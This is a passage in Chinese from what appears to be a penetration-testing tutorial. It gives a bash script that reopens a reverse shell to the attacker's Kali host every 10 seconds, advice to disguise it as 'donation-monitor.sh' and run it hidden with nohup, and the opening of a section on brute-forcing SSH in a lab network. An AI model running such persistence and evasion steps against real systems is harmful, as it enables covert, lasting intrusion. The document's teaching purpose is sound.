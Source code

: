 你可能想通过执行一个脚本来加强你在目标上的初始立足点，该脚本会不断重新建立反向 shell 连接。如果反向 shell 进程被中断或断开，你的脚本可以通过提供的 IP 地址和端口重新连接到 Kali 虚拟机。

清单 7-4 将在被攻陷的服务器上作为后台进程本地运行，并尝试以我们设置的特定间隔重新建立反向 shell 连接。

reverse_shell _monitor.sh

```
#!/bin/bash
TARGET_HOST="172.16.10.1"
TARGET_PORT="1337"

# Function to restart the reverse shell process
restart_reverse_shell() {
  echo "Restarting reverse shell..."
  bash -i >& "/dev/tcp/${TARGET_HOST}/${TARGET_PORT}" 0>&1 &
}

# Continuously monitor the state of the reverse shell.
while true; do
  restart_reverse_shell
  # Sleep for a desired interval before checking again.
  sleep 10
done 
```

清单 7-4：监控并重新建立反向 shell 连接

脚本本身很简单：我们每 10 秒调用一次 restart_reverse_shell() 函数。无论网络或反向 shell 进程的状态如何，该函数都会尝试与我们的 Kali 主机重新建立连接。如果当前已经有一个反向 shell 连接，Kali 主机会拒绝任何其他连接。

将脚本命名为一些普通的名称，比如 *donation-monitor.sh*，以避免引起怀疑，因为该脚本应在后台无限期运行。接下来，将脚本保存到 *p-web-02*（172.16.10.12）上的文件中，并设置适当的执行权限，然后将脚本作为后台任务运行，重定向其输出：

```
$ **cp reverse_shell_monitor.sh donation-monitor.sh**
$ **chmod +x ./donation-monitor.sh**
$ **nohup** **./donation-monitor.sh > /dev/null 2>&1 &**
$ **rm nohup.out** 
```

要测试脚本，您只需要运行 Netcat 监听命令以提供反向 shell。尝试多次停止和启动监听器，您会注意到每 10 秒反向 shell 会重新建立连接。

## 使用暴力破解进行初始访问

进入远程系统的一种更传统方式是使用与 IT 管理员相同的服务。通过利用被盗的凭证或利用如配置错误或密码不强等弱点，我们可以通过暴力破解的方式打开系统的大门。

一个常见的目标服务是 SSH。虽然一般认为 SSH 是一种安全协议，但其实现可能存在安全弱点，攻击者可以利用这些弱点进行攻击，例如密码弱或重复使用、身份验证方法不安全以及密钥管理问题。

我们可以使用 bash 脚本执行跨多个服务协议的复杂暴力攻击，包括 SSH。虽然我们可以单独运行暴力破解工具，但将它们结合到一个 bash 脚本中可以带来许多好处。我们的脚本可以自动化主机检测、生成字典文件，并与工具集成来填充凭证。

让我们尝试破解一个新目标，*p-jumbox-01* 服务器（172.16.10.13）。要执行 SSH 连接，请在 Kali 主机中打开一个新终端并输入以下命令：

```
$ **ssh user@172.16.10.13**
The authenticity of host '172.16.10.13 (172.16.10.13)' can't be established.
ED25519 key fingerprint is SHA256:c89YzVU+EW/2o+lZm30BgEjutZ0f2t145cSyX2/zwzU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? **yes**
user@172.16.10.13's password: 
```
